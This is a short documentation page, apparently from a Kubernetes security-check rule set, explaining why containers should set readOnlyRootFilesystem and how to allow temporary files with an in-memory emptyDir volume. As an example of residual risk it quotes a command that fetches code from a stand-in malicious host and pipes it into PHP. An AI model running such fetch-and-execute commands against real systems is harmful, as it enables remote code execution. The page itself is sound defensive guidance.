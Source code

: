 +++
title = "containers[] .securityContext .readOnlyRootFilesystem == true"
weight = 5
+++

## An immutable root filesystem can prevent malicious binaries being added to PATH and increase attack cost

An immutable root filesystem prevents applications from writing to their local disk. This is desirable in the event of an intrusion as the attacker will not be able to tamper with the filesystem or write foreign executables to disk.

However if there are runtimes available in the container then this is not sufficient to prevent code execution. Consider `curl http://malicious.php | php` or `bash -c "echo 'much pasted code'"`.

## Notes

- Immutable filesystems will prevent your application writing to disk. There may be a requirement for temporary files or local caching, in which case an  `emptyDir` volume can be mounted with type `Memory`
- Any volume mounted into the container will have its own filesystem permissions
- Scratch containers are an ideal candidate for `immutableRootFilesystem` - they contain only your code, minimal `dev`, `etc`, `proc`, and `sys`, and so need a runtime (or injection into the scratch binary) to execute code. Without a writable filesystem the attack surface is dramatically reduced.


## External Links
- [Kubernetes Docs: Volumes](https://kubernetes.io/docs/concepts/storage/volumes/#emptydir)


{{% katacoda %}}

